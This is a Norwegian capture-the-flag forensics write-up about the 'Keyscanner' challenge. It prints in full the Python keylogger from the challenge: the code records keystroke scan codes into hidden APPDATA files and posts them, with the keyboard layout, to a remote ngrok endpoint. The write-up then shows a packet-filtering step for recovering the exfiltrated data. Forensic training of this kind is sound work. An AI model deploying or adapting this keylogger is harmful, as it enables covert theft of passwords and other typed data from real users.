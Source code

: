 # Keyscanner
En gøy forensics oppgave med litt databehandling der man måtte integrere forståelse av nettverkslogger med et script som sender `http`-requests. 

# Oppgave av Vealending 
Our CSIRT recently discovered a keylogger running on one of our systems.
They've managed to capture the network traffic containing the keylogger's activity and the offending script itself.
Can you figure out what information was compromised?

# Løsning
Vi får nettverkstraffikken `capture.pcapng` og `Keylogger.py`. Ved å lese skriptet får vi informasjon om hvilken server keyloggingsaktiviteten ble sendt til. 
```python
import keyboard
import requests
import ctypes
import uuid
import os


class Logger:
    MAX_FILE_SIZE = 128
    APPDATA_FOLDER = os.getenv("APPDATA")
    FILE_NAME_PREFIX = "."
    FILE_NAME_SUFFIX = ".sc"
    REMOTE_SERVER = "http://c784-89-11-175-7.eu.ngrok.io/l0gg3r_3ndp0in7"
    REMOTE_HEADERS = {"Content-Type": "application/octet-stream"}

    def __init__(self):
        self.file_path = os.path.join(
            self.APPDATA_FOLDER,
            self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
        )
        self.file_size = 0

    def _get_layout(self):
        layout_name = ctypes.create_unicode_buffer(9)
        if ctypes.WinDLL("user32").GetKeyboardLayoutNameW(layout_name):
            return layout_name.value
        return None

    def _write_to_file(self, event):
        with open(self.file_path, "ab") as f:
            try:
                f.write(bytes([event.scan_code]))
            except ValueError:
                pass  # Discard extended scan codes

        self.file_size = os.path.getsize(self.file_path)

        if self.file_size >= self.MAX_FILE_SIZE:
            with open(self.file_path, "rb") as f:
                response = requests.post(
                    self.REMOTE_SERVER,
                    headers=self.REMOTE_HEADERS,
                    params={"layout": self._get_layout()},
                    data=f,
                )

            if response.status_code == 200:
                os.remove(self.file_path)

            self.file_path = os.path.join(
                self.APPDATA_FOLDER,
                self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
            )
            self.file_size = 0

    def start_logging(self):
        keyboard.hook(self._write_to_file)
        keyboard.wait()


if __name__ == "__main__":
    keylogger = Logger()
    keylogger.start_logging()

```
Vi filtrerer slik `http.request.uri matches "/l0gg3r_3ndp0in7"` og lagrer datene som var tilsendt som plaintext. Deretter kan vi lettere utvinne all dataene og lagre det i en fil. For eksempel brukte jeg `cat data.txt | grep "0000  " -A 8 -B 0 > new.txt`.
Et eksempel packet inneholder også `layout` som beskriver hvilken keyboard layout var blitt brukt. Dette er nyttig for å dekryptere dataene ved skankodene.


